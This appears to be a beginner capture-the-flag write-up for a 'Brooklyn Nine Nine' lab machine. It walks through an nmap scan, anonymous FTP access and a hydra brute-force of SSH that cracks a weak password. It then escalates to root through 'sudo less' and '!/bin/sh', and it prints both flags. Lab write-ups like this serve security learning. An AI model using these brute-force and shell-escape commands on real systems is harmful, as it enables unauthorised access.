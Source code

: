 **Tristan Gomez**

```
This room is aimed for beginner level hackers but anyone can try to hack this box. 
There are two main intended ways to root the box. If you find more dm me in discord at Fsociety2006.
```

nmap
```
└─$ sudo nmap -sS 10.10.97.0
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-16 11:06 PDT
Nmap scan report for 10.10.97.0
Host is up (0.18s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 9.61 seconds

```

10.10.97.0
in page source
```
<body>

<div class="bg"></div>

<p>This example creates a full page background image. Try to resize the browser window to see how it always will cover the full screen (when scrolled to top), and that it scales nicely on all screen sizes.</p>
<!-- Have you ever heard of steganography? -->
</body>
```

ftp
`anonymous:password`

note_to_jake.txt
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

```

`hydra -l jake -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-10000.txt ssh://10.10.97`
`[22][ssh] host: 10.10.97.0   login: jake   password: 987654321`

```
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt
jake@brookly_nine_nine:/home/holt$ cat user.txt
ee11cbb19052e40b07aac0ca060c23ee

```

```
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less

```

gtfobins
```
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

sudo less /etc/profile
!/bin/sh
```

```
# whoami
root

```

```
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
# 

```
